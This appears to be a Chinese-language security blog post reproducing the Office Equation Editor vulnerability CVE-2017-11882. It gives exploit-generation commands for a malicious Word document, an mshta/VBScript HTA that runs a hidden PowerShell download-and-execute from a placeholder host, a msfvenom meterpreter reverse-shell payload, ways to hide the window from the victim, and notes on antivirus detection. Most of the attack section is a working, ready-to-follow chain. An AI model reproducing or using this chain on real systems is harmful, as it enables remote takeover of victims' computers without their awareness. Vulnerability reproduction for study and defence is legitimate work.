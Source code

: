 ```yaml
---
title: CVE-2017-11882 复现
date: 2017-11-21 18:40:29
tags: [vul,sec,office]
categories: Security
---
```

<script src="https://ob5vt1k7f.qnssl.com/pangu.js"></script>

上周微软更新日，修复了`CVE-2017-11882`这个漏洞，根据官方描述该漏洞为Office内存破坏漏洞，影响目前流行的所有Office版本，攻击者可以利用漏洞以当前登录的用户的身份执行任意命令。漏洞位置是出现在一个公式编辑器上，叫做`EQNEDT32.EXE`，在win10上的路径是`C:\Program Files\Common Files\microsoft shared\EQUATION\EQNEDT32.EXE`，可以在编辑文档的时候插入公式。

最近有利用脚本出来了，也是自己尝试复现了几次，在此简单记录一下

下载`https://github.com/Ridter/CVE-2017-11882/`利用脚本，该脚本是[@Evi1cg](https://evi1cg.me/archives/CVE_2017_11882_exp.html)改造后的脚本，经过测试效果还是不错的

生成一个测试文档的话执行
`python Command_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
`
打开test.doc就会弹出计算器，而且全程没有提示或警告之类的弹窗，可以算是完美利用，比之前[不带宏的代码执行](https://kylingit.com/blog/msword-code-exec-without-macro/)要简单粗暴

注意一点的是命令部分长度不能超过43bytes

#### 反弹shell
下面主要讲一下反弹shell的利用

用mshta方式执行代码：
在vps上建立一个文件`test`，内容为
```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "calc.exe"
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML> 
```
关键是修改`objShell.Run`后面的部分

我们通过调用powershell下载一个反弹脚本然后执行的方式来获得shell：

修改`objShell.Run`为

`objShell.Run powershell.exe -WindowStyle Hidden -NoP -sta -NonI -c IEX(New-Object System.Net.WebClient).DownloadString('http://ip/reverse.ps1');reverse.ps1"`

其中`reverse.ps1`通过`msfvenom`生成:

`./msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=1234 -f psh-reflection >reverse.ps1`

msf开启监听，然后生成word文档：
`python Command_CVE-2017-11882.py -c "mshta http://ip/test" -o test.doc`

打开之后就会收到shell

![test](https://ob5vt1k7f.qnssl.com/5TU1y)
![session 1](https://ob5vt1k7f.qnssl.com/KM1My)
但是这样会有一个问题，打开word文档的时候会发现有一个黑框一闪而过，而我们已经指定powershell以`-WindowStyle Hidden`的方式运行了，那怎么绕过这个黑框呢？

查一下[文档](https://msdn.microsoft.com/en-us/library/d5fk67ky\(en-us,VS.85\).aspx)
可以看到`Run`命令是可以通过`intWindowStyle`参数来控制窗口风格的，有0-10这几种风格
![Run Method](https://ob5vt1k7f.qnssl.com/q0F4b)
所以我们在执行的命令后面加一个参数，用来控制mshta运行的窗口大小，使之最好隐藏窗口运行
![0](https://ob5vt1k7f.qnssl.com/ccxgV)
经过测试0和2参数都是可以的，达到隐藏窗口执行，用户察觉不了，其它参数可以自己试一下

![session 3](https://ob5vt1k7f.qnssl.com/qJKq7)

目前这样生成的文档在火绒和360杀毒的最新版上是没有报毒，但是各大杀软已经更新了规则，凡是远程调用执行cmd或者ps或者regsvr32等都会触发报警，暂时没有好的方法绕过，毕竟是监控着底层的那几个文件的。

![av](https://ob5vt1k7f.qnssl.com/fzUuw)

参考：

https://evi1cg.me/archives/CVE_2017_11882_exp.html

http://www.freebuf.com/vuls/154462.html

<script>pangu.spacingPage();</script>






